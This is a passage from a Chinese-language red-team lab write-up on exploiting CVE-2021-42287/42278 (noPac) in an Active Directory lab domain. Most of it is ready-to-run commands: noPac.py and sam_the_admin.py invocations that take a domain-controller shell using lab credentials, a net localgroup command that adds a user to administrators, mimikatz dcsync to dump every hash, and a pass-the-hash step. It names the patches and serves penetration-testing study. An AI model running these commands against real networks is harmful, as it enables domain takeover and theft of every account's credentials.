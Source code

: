 还原请参考链接[http://www.jianshu.com/p/525be0335404](http://www.jianshu.com/p/525be0335404)

#### 4. CVE-2021-42287 & CVE-2021-42278

	补丁：

* KB5008602
* KB5008380

1.直接脚本小子一把梭 [noPac](http://github.com/Ridter/noPac)

检查漏洞情况,不使用ldap协议会报错

`python3 scanner.py redteam.red/sqlserver:Server12345  -dc-ip 10.10.10.8 -use-ldap`

![](http://qn.laohuan.xin/2021-12-14_22-29.png)

2.直接获取域控shell

`proxychains python3 noPac.py redteam.red/saul:'admin!@#45'  -dc-ip 10.10.10.8  -dc-host owa  -shell --impersonate administrator -use-ldap`

![](http://qn.laohuan.xin/2021-12-18_14-03-nopac1.png)

![](http://qn.laohuan.xin/2021-12-18_14-03-nopac2.png)

3.也可以使用sam_the_admin

exp: [sam_the_admin.py](http://github.com/WazeHell/sam-the-admin)

`python3 sam_the_admin.py 'redteam/saul:admin!@#45' -dc-ip 10.10.10.8 -shell`

![](http://qn.laohuan.xin/2021-12-18_13-57.png)

#### 其他

或者可以在dc上把win7账户saul加入管理组，获得域管权限

`net localgroup administrators /add redteam.red\saul`

![](http://qn.laohuan.xin/2021-12-18_16-19.png)

dsync导出hash

`lsadump::dcsync /domain:redteam.red /all /csv`

![](http://qn.laohuan.xin/2021-12-18_16-20.png)

hash传递拿下域控，抓取域管密码

![](http://qn.laohuan.xin/2021-12-18_17-41.png)

### 0x5 参考链接

* [http://www.jianshu.com/p/525be0335404](http://www.jianshu.com/p/525be0335404)

* [http://mp.weixin.qq.com/s/dcYbIfLwN-Aw0Z9XxQSGkQ](http://mp.weixin.qq.com/s/dcYbIfLwN-Aw0Z9XxQSGkQ)

* [http://blog.csdn.net/lhh134/article/details/104139081](http://blog.csdn.net/lhh134/article/details/104139081)

* [http://www.jianshu.com/p/525be0335404](http://www.jianshu.com/p/525be0335404)

  
